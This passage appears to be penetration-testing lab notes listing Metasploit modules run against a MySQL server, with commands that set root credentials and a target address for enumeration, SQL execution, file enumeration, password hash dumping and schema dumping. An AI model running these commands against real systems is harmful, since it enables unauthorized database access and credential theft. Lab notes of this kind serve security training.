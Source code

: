     - auxiliary/admin/mysql/mysql_enum
        
        ```powershell
        Module 3: auxiliary/admin/mysql/mysql_enum
        Commands:
        use auxiliary/admin/mysql/mysql_enum
        set USERNAME root
        set PASSWORD twinkle
        set RHOSTS 192.76.252.3
        run
        ```
        
    - auxiliary/admin/mysql/mysql_sql
        
        ```powershell
        Module 4: auxiliary/admin/mysql/mysql_sql
        Commands:
        use auxiliary/admin/mysql/mysql_sql
        set USERNAME root
        set PASSWORD twinkle
        set RHOSTS 192.76.252.3
        run
        ```
        
    - auxiliary/scanner/mysql/mysql_file_enum
        
        ```powershell
        Module 5: auxiliary/scanner/mysql/mysql_file_enum
        Commands:
        use auxiliary/scanner/mysql/mysql_file_enum
        set USERNAME root
        set PASSWORD twinkle
        set RHOSTS 192.76.252.3
        set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
        set VERBOSE true
        run
        ```
        
    - auxiliary/scanner/mysql/mysql_hashdump
        
        ```powershell
        Module 6: auxiliary/scanner/mysql/mysql_hashdump
        Commands:
        use auxiliary/scanner/mysql/mysql_hashdump
        set USERNAME root
        set PASSWORD twinkle
        set RHOSTS 192.76.252.3
        run
        ```
        
    - auxiliary/scanner/mysql/mysql_schemadump
        
        ```powershell
        Module 7: auxiliary/scanner/mysql/mysql_schemadump
        Commands:
        use auxiliary/scanner/mysql/mysql_schemadump
        set USERNAME root
        set PASSWORD twinkle
        set RHOSTS 192.76.252.3
        run
        ```
        